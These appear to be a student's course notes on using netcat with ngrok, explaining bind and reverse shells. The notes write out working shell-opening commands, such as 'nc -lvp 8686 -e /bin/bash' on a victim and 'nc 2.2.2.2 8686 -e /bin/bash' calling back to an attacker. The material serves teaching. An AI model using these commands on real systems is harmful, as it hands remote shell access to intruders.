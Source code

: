 			- STEP 4.1 : run this command on client system , not on the server system - `nc -v 0.tcp.in.ngrok.io 15576` 
			- STEP 4.2 : open that terminal on which u executed this command "nc -lvp 8686" , output : if someone connected <br><img src="../notes-pics/03-Module/20_lecture/20_lecture-8-M3.jpg" alt="" width="500"/>
			- in output , if someone connect then we'll get message "connect to [IP-address] from localhost [IP-address] port-no."
			- so that client can talk to the server , doesn't matter how far that client is from the server <br>- so i u share this command "`nc -v 0.tcp.in.ngrok.io 15576`" to anyone then that client will be connected to u
		- STEP 5 : to break the connection , open that terminal on which u executed this command "nc -lvp 8686" , press `Ctrl + C`
		- hope u understood the communication done b/w 2 systems via ngrok tool
- now we'll see how to do hacking the system via ngrok tool

### Theory : Hacking via both netcat + ngrok tool : Bind Shell , Reverse Shell
- types of hacking done via ngrok tool : bind shell & reverse shell
- first , we'll see Bind Shell then Reverse Shell , to get the better understanding ✔
- About : Bind Shell & Reverse Shell ✔
	- Bind Shell
		- in bind shell , assume we have 2 systems i.e one is attacker system & another is victim system  
		- Things for Victim's System <br>- so we (as a attacker) , make that Victim's system as a server , so the command was Eg : `nc -lvp 8686` <br>- but we add a extra thing inside that command i.e `-e /bin/bash` <br>- So complete command is `nc -lvp 8686 -e /bin/bash` ✔<br>> `-e` : means explore or bring the location of a file ✔ <br>> `/bin/bash` : is a location of terminal ✔
		- so whenever we go to connect with the server (i.e Victim's system) - then we'll reach to this location "`/bin/bash`" <br>- & obvious thing i.e Victim's system is a server , so we open the port no. 8686 - so the server also open that port no. too ✔<br>- & once the server (i.e Victim's system) open the port no. - then "`/bin/bash`" location will be shared on that port no. ✔
		- & assume that the server (i.e Victim's system) has a Public Static IP address is 1.1.1.1
		- so inside Victim's system , this command "`nc -lvp 8686 -e /bin/bash`" executed by a attacker ✔
		- Q : what a attacker will do on his/her system , means what that attacker will write on his/her system<br>Ans : that attacker will write `nc 1.1.1.1 8686` <br>- once the the attacker is connected with the Victim's system , then the attacker can run all the commands
	- Reverse Shell 
		- in it , attacker system becomes a server via "`nc -lvp 8686`"  & assume this server's IP is 2.2.2.2<br>- Q : What Victim system will run a command <br> Ans : i.e "`nc 2.2.2.2 8686 -e /bin/bash`"
		- so when a client (i.e Victim's system) comes to connect wit the server (i.e attacker system) <br> - so when that client comes to connect with the server - then during during making a connection , <br>client system will bring that location i.e "`/bin/bash`" (means terminal location)
	- difference b/w Bind Shell vs Reverse shell
		- in Bind Shell , we (as a attacker/client) making connection with the server (i.e Victim's system) <br>- means we're going to Victim's system to make establish the connection
		- in Reverse shell , Victim (i.e client) is bring a connection (with the terminal location) towards the attacker (i.e server) 
		- in Bind Shell , attacker is a client & Victim is a server <br>in Reverse shell , attacker is a server & victim is a client ✔
	- firewall situation with Bind Shell vs Reverse shell
		- while doing Bind shell , 
			- might firewall of Victim's system will stop u (i.e attacker) from entering inside Victim's system (i.e server) <br>- means mostly - firewall will protect client's system from those connections (which are coming from outside) ✔
			- so like if attacker is going to make a connection on this "8686" port no. of Victim's system <br>then might be - firewall will stop the attacker's system <br>- if we try too much to make the connection on port no. 8686 - then firewall will block the IP-address of a attacker ✔